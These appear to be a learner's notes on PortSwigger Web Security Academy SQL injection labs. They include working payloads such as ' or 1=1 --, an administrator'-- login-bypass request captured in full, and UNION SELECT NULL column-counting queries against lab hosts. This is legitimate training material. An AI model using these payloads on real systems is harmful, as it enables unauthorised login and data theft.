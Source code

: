https://www.youtube.com/watch?v=wX6tszfgYp4

To test if sqli exists or not
1) use  ( ' ) as input and if it shows some error   , then
2) use ( '-- ) if it shows  200 ok response that means SQLi is present
because at ( ' ) the sql shows error due to syntax error, but at ( '-- ) the -- comments out the rest of the sql query being executed hence request dont show error.


# Lab: SQL injection vulnerability in WHERE clause allowing retrieval of hidden data                                  video:https://portswigger.net/web-security/sql-injection/
 lab video: https://www.youtube.com/watch?v=X1X1UdaC_90

notes:
SQLi Product category filter (https://portswigger.net/web-security/sql-injection/lab-retrieve-hidden-data) 


Query structure : SELECT * FROM products WHER
E category = 'Gifts' AND released = 1

end goal: display all products regardless of category both released and unreleased.
application by default do show unreleased product to user but sqli does it.

Analysis:

https://0a6c008403c5a91d8394f18000c4007b.web-security-academy.net/filter?category=Corporate+gifts for the url 
the query is  
SELECT * FROM products WHERE category = 'Corporate+gifts' AND released = 1

when we put ( ' ) to test the sqli   
https://0a6c008403c5a91d8394f18000c4007b.web-security-academy.net/filter?category='
for the url 
the query is  
SELECT * FROM products WHERE category = ''' AND released = 1

and it shows internal server error 


SELECT * FROM products WHERE category = ' '-- ' AND released = 1
then use  '-- , now it shows empty means the query executed hence sqli present


SELECT * FROM products WHERE category = ' '  or 1=1 -- ' AND released = 1
then use **'  or 1=1 --**  now it shows all product  means the query executed hence sqli exploited.




# Lab: SQL injection vulnerability allowing login bypass
Link: https://portswigger.net/web-security/sql-injection/lab-login-bypass


request sent for exploiting the sqli:
`POST /login HTTP/2`
`Host: 0aa7008f03eaa71f85d6a4ef008900df.web-security-academy.net`
`Cookie: session=QE7wOVq0qOUdFqMPKnt2jdgFzMOR1RFC`
`User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0`
`Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/png,image/svg+xml,*/*;q=0.8`
`Accept-Language: en-US,en;q=0.5`
`Accept-Encoding: gzip, deflate, br`
`Content-Type: application/x-www-form-urlencoded`
`Content-Length: 81`
`Origin: https://0aa7008f03eaa71f85d6a4ef008900df.web-security-academy.net`
`Referer: https://0aa7008f03eaa71f85d6a4ef008900df.web-security-academy.net/login`
`Upgrade-Insecure-Requests: 1`
`Sec-Fetch-Dest: document`
`Sec-Fetch-Mode: navigate`
`Sec-Fetch-Site: same-origin`
`Sec-Fetch-User: ?1`
`Priority: u=0, i`
`Te: trailers`

`csrf=8ePpuDgiMTtIpvIa5QFCXEvVy8eY4ZZb&username=administrator%27--&password=%27%27`


The above request have the below url structure and Query structure
https://0a9000f803024633818f758c0079008f.web-security-academy.net/my-account?id=administrator

SELECT firstname FROM products WHERE username= 'administrator'--' and password=' '




# Retrieving data from other database tables i.e [https://portswigger.net/web-security/sql-injection/union-attacks]


**SQL injection UNION attacks** :
https://portswigger.net/web-security/sql-injection/union-attacks


# Lab: SQL injection UNION attack, determining the number of columns returned by the query(https://portswigger.net/web-security/sql-injection/union-attacks)
(https://portswigger.net/web-security/sql-injection/union-attacks/lab-determine-number-of-columns)

solution video: https://www.youtube.com/watch?v=umXGHbEyW5I

Explaination of video:

SQLi - Product category filter

End Goal: determine the number of columns returned by the query. 

Background (Union):

table1      table2
a | b       c | d 
-----       -----
1 , 2       2 , 3
3 , 4       4 , 5



Query #1: select a, b from table1
1,2
3,4

Query #2: select a, b from table1 UNION select c,d from table2
1,2
3,4
2,3
4,5




Rule: 
- The number and the order of the columns must be the same in all queries
- The data types must be compatible


SQLi attack (way #1):  Union operator SQL(Microsoft):
https://learn.microsoft.com/en-us/sql/t-sql/language-elements/set-operators-union-transact-sql?view=sql-server-ver16

select ? from table1 UNION select NULL
-error -> incorrect number of columns

select ? from table1 UNION select NULL, NULL, NULL
-200 response code -> correct number of columns


SQLi attack (way #2):  Order by operator SQL(Microsoft):
https://learn.microsoft.com/en-us/sql/t-sql/queries/select-order-by-clause-transact-sql?view=sql-server-ver16

select a, b from table1 order by 3


```

 ####  Solution

1. Use Burp Suite to intercept and modify the request that sets the product category filter.
2. Modify the `category` parameter, giving it the value `'+UNION+SELECT+NULL--`. Observe that an error occurs.
3. Modify the `category` parameter to add an additional column containing a null value:
    
    `'+UNION+SELECT+NULL,NULL--`
4. Continue adding null values until the error disappears and the response includes additional content containing the null values.
```


Query used to solve this lab was:
```
https://0aed007503ed3a1fa9f7494e002b00e3.web-security-academy.net/filter?category=Gifts%27+UNION+SELECT+NULL,NULL,NULL-- 

```




# Lab: SQL injection UNION attack, finding a column containing text(https://portswigger.net/web-security/sql-injection/union-attacks)

